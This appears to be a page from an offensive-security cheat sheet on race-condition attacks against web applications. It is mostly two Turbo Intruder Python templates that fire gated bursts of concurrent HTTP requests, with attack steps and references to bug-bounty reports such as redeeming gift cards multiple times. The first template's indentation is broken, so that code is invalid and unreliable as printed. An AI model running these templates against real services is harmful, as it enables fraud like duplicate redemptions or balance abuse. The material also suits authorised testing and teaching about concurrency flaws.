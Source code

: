 # Race Condition

> Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language. 

## Summary

- [Race Condition](#race-condition)
  - [Summary](#summary)
  - [Tools](#tools)
  - [Turbo Intruder Examples](#turbo-intruder-examples)
  - [Turbo Intruder 2 Requests Examples](#turbo-intruder-2-requests-examples)
  - [References](#references)

## Tools

* [Turbo Intruder - a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results.](https://github.com/PortSwigger/turbo-intruder)

## Turbo Intruder Examples

1. Send request to turbo intruder
2. Use this python code as a payload of the turbo intruder
    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=30,
                            pipeline=False
                            )

    for i in range(30):
        engine.queue(target.req, i)
            engine.queue(target.req, target.baseInput, gate='race1')


        engine.start(timeout=5)
    engine.openGate('race1')

        engine.complete(timeout=60)


    def handleResponse(req, interesting):
        table.add(req)
    ```
3. Now set the external HTTP header x-request: %s - :warning: This is needed by the turbo intruder
4. Click "Attack"

## Turbo Intruder 2 Requests Examples
This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.
```python
def queueRequests(target, wordlists): 
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=30, 
                           requestsPerConnection=100, 
                           pipeline=False 
                           ) 
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    ''' 

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30): 
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)
```

## References

* [Race Condition allows to redeem multiple times gift cards which leads to free "money" - @muon4](https://hackerone.com/reports/759247)
* [Turbo Intruder: Embracing the billion-request attack - James Kettle | 25 January 2019](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)
* [Race Condition Bug In Web App: A Use Case - Mandeep Jadon](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)
